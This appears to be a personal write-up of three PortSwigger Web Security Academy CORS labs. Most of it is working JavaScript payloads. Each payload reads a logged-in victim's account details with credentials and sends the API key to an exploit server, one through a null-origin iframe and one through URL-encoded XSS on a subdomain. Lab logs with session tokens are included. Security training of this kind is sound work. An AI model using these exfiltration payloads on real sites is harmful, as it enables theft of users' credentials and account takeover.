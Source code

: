 # Cross Origin Resource Sharing

## CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Reading the source code after logging in reveals an endpoint which was used

![](Pasted%20image%2020220514111546.png)

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
	fetch('/accountDetails', {credentials:'include'})
	.then(r => r.json())
	.then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

Deliver this exploit to the user through the exploit server

```
...
Origin: https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net
```

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = "https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net";
    fetch('https://ac0e1f7b1ed99a63c0545434007100a1.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>
```

Check the logs

```
172.31.30.154   2022-05-28 17:01:14 +0000 "GET /Rsa2DyCqkImZEW6285UCrbS17fwEXdJp HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36"
116.14.150.8    2022-05-28 17:01:14 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36"
```

## CORS vulnerability with trusted null origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Origin: null
```

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = 'https://exploit-0a2c002303c92b3ac0d4089b01ae000c.web-security-academy.net/';
    fetch('https://0aa300da033a2b7dc010085d009c003c.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>"></iframe>
```
## CORS vulnerability with trusted insecure protocols
https://portswigger.net/web-security/cors/lab-breaking-https-attack

On looking at the stockcheck function, you notice that a subdomain is opened, likely where its exploited at

```
<script>
    const stockCheckForm = document.getElementById("stockCheckForm");
    stockCheckForm.addEventListener("submit", function(e) {
	const data = new FormData(stockCheckForm);
	window.open('http://stock.0a660041031c2f37c0fe4299000b0099.web-security-academy.net/?productId=1&storeId=' + data.get('storeId'), 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
	e.preventDefault();
    });
</script>
```

You can inject `<script>alert(1)</script>` into the productId parameter. You can identify this by testing the parameters, and notice the contents of productId is reflected if not valid

![image](https://user-images.githubusercontent.com/18213722/201603007-6a3e12d1-639c-4de7-9896-89233ab66b68.png)

I url encoded this XSS payload 

```js
<script> var EXPURL = 'https://exploit-0a7400b003922ffec0c34243016100d6.exploit-server.net/?';
    fetch('https://0a660041031c2f37c0fe4299000b0099.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+j.apikey, {credentials:'include'}) )
</script>
```
Afterward used this Exploit Server Payload

```js
<script>
var data = "%3Cscript%3E%20var%20EXPURL%20%3D%20%27https%3A%2F%2Fexploit%2D0a7400b003922ffec0c34243016100d6%2Eexploit%2Dserver%2Enet%2F%3F%27%3B%0A%20%20%20%20fetch%28%27https%3A%2F%2F0a660041031c2f37c0fe4299000b0099%2Eweb%2Dsecurity%2Dacademy%2Enet%2FaccountDetails%27%2C%20%7Bcredentials%3A%27include%27%7D%29%0A%20%20%20%20%20%20%20%20%2Ethen%28r%20%3D%3E%20r%2Ejson%28%29%29%0A%20%20%20%20%20%20%20%20%2Ethen%28j%20%3D%3E%20fetch%28EXPURL%2Bj%2Eapikey%2C%20%7Bcredentials%3A%27include%27%7D%29%20%29%0A%3C%2Fscript%3E";

window.open('http://stock.0a660041031c2f37c0fe4299000b0099.web-security-academy.net/?productId='+data+'&storeId=1', 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
</script>                   
```

Other - Subdomain reflection test

```
GET /accountDetails HTTP/1.1
Host: 0a660041031c2f37c0fe4299000b0099.web-security-academy.net
Origin: http://stock.0a660041031c2f37c0fe4299000b0099.web-security-academy.net
Cookie: session=s2fGlgSGMUqAtID7Toxuk6vxzAV6kkay
Connection: close
```

Passed through to access control allow origin
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://stock.0a660041031c2f37c0fe4299000b0099.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 189

{
  "username": "wiener",
  "email": "",
  "apikey": "xzVvSPRWWgCfiqTxo64ZFVJfTgO8NEbu",
  "sessions": [
    "caR76YazqabcI0oVd4zn87BAe3Anp1GT",
    "s2fGlgSGMUqAtID7Toxuk6vxzAV6kkay"
  ]
}
```

